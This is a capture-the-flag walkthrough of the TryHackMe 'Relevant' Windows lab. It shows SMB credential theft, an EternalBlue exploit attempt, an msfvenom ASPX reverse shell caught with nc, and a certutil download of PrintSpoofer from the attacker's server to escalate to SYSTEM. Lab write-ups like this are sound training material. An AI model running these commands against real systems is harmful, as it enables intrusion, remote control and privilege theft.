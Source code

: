 # Relevant

**Room Link:** [https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)&#x20;



## Scanning

### Initial Scan

<pre><code><strong>nmap -A 10.10.145.102
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

<pre><code><strong>nmap -p- 10.10.145.102
</strong></code></pre>

### 135/TCP - msrpc

```
nbtscan 10.10.145.102
```

<figure><img src="../../.gitbook/assets/image (9) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - microsoft-ds

There is a share but we couldn't access with smbget but smbclient worked. There was only one file called passwords.txt

<pre><code>smbclient -L http://10.10.179.48
smbget -R smb://10.10.145.102/nt4wrksv
<strong>smbclient  \\\\10.10.145.102\\nt4wrksv 
</strong><strong>smb: \> ls
</strong>smb: \> get passwords.txt 
smb: \> exit

</code></pre>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption><p>Can't download files with smbget</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption><p>Downloaded password file</p></figcaption></figure>

The file contained two bade64 encoded strings which decoded into users and passwords

```
cat passwords.txt 
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
```

**Credentials Found**

```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

### Scanning for vulnerabilities

Decided to scan for vulnerabilities and nmap detected that the host is vulnerable to  m17-010 (EternalBlue)

```
sudo nmap 10.10.145.102 -p80,135,139,445,3389 --script *vuln*
```

<figure><img src="../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>

The exploit did not work as expected. It seems the credentials do not work for smb so now we must explore a different route.

```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010/
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bob:!P@$$W0rD!123'
python zzz_exploit.py -target-ip 10.10.145.102 -port 445 'Bill:Juw4nnaM4n420696969!$$$'
```



### TCP/80 - HTTP

```
gobuster dir -u http://10.10.179.48 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 30

```



We can see the passwords.txt file from the browser

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

We can upload files to the nt4wrksv and view the files on webserver on  port 49663 so that means we should be able to add a reverse shell.

**Kali #1**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.179.48  LPORT=1337 — platform windows -a x64 -f aspx -o shell.aspx
smbclient \\\\10.10.231.48\\nt4wrksv
put shell.aspx

```

<figure><img src="../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

<pre><code><strong>rlwrap nc -lvnp 1337
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Exploit:** [https://github.com/dievus/printspoofer](https://github.com/dievus/printspoofer)

As SeImpersonatePrivilege is enabled for the user we can use Printspoofer as it works on Windows 10 and Server 2016/2019.

****

**Victim**

```
systeminfo
whoami /priv
```

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone https://github.com/dievus/printspoofer
cd printspoofer/
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd C:\Windows\Temp
certutil -urlcache -f http://10.10.163.87:81/PrintSpoofer.exe PrintSpoofer.exe
PrintSpoofer.exe -i -c whoami
PrintSpoofer.exe -i -c powershell.exe
```

<figure><img src="../../.gitbook/assets/image (13) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
